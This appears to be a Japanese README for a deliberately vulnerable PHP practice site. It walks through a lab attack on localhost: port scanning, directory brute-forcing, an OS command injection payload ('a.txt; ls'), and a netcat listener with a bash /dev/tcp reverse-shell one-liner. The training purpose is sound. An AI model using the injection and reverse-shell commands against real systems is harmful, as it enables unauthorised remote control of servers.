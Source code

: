 # vulnable_sample
ツールの使い方を簡単に実践するための簡単な環境．バイト先向けの即席で作ったやつだからCSSとか使ってないけど気にしないで...
## use
### easy use way
```php -S localhost:8080```
### exploit
ポートスキャン  
```
nmap -p- localhost
> 8080/tcp closed http-proxy
```
ディレクトリブルートフォース　　
```
dirb http://localhost /usr/share/wordlists/dirb/common.txt
> + http://localhost:8080/command (CODE:200|SIZE:434)                       
> + http://localhost:8080/robots.txt (CODE:200|SIZE:32)
```
web調査
```
ブラウザでhttp://localhost:8080を開くと空ページ  
robots.txtを確認するとcommandというページがある事がわかる  
/commandにアクセスするとOpen Fileというページ  
ソースコードを見るとサイトの使い方が書いている  
```
エクスプロイト
```
OSコマンドインジェクションを行える
a.txt; ls
でlsコマンドが実行できる
```
リバースシェル
```
# 手元のPCで実行
nc -nvlp 1234
```
```
# 対象のPCに対して
bash -i >& /dev/tcp/127.0.0.1/1234 0>&1
```
---
以上の流れでサーバのIPアドレスだけからWebページが空いている事を見つけて，よくあるrobots.txtからのディレクトリの発見や，表からは見えないディレクトリの発見を行う．そこから，ソースコードの情報を元に攻撃方法を推測しコマンド実行を行う(ファイルを読み込んでるのか他の方法OSコマンドからファイルを出力してるのか...).攻撃をより行いやすいようにリバースシェルの接続を行う．

